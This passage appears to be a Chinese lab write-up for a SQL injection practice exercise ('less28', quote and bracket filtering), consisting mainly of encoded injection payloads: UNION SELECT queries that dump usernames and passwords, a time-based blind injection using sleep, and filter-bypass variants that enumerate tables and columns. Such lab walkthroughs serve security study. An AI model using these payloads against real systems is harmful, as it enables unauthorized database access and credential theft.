  

 爆用户名密码：`?id=0')UNion%a0SElect%a01,(group_concat(username)),3%a0from%a0users%a0where%a0('1')=('1`

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less28-unionselect单引号括号过滤.assets/1838411-20200210131741685-267550906.png)

 

 这是联合查询语句来做得。还可以用时间注入的方法。

比如`?id=1') %a0 %26%26 if( length(database())>1, 1, sleep(5)) ;%00`

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less28-unionselect单引号括号过滤.assets/1838411-20200210133144229-464658923.png)

 



```
0')%0dunion%0dunion%0dselect%0dselect%0d1,2,3%0dor%0d('

0')%0dunion%0dunion%0dselect%0dselect%0d1,database(),3%0dor%0d('

0%27)%0dunion%0dunion%0dselect%0dselect%0d1,group_concat(table_name),3%0dfrom%0dinformation_schema.tables%0dwhere%0dtable_schema=%27security%27%0dor%0d(%27

0%27)%0dunion%0dunion%0dselect%0dselect%0d1,group_concat(column_name),3%0dfrom%0dinformation_schema.columns%0dwhere%0dtable_schema=%27security%27%0dand%0dtable_name=%27users%27%0dor%0d(%27

0%27)%0dunion%0dunion%0dselect%0dselect%0d1,(select%0dgroup_concat(password)%0dfrom%0dusers),3%0dor%0d(%271

 
```
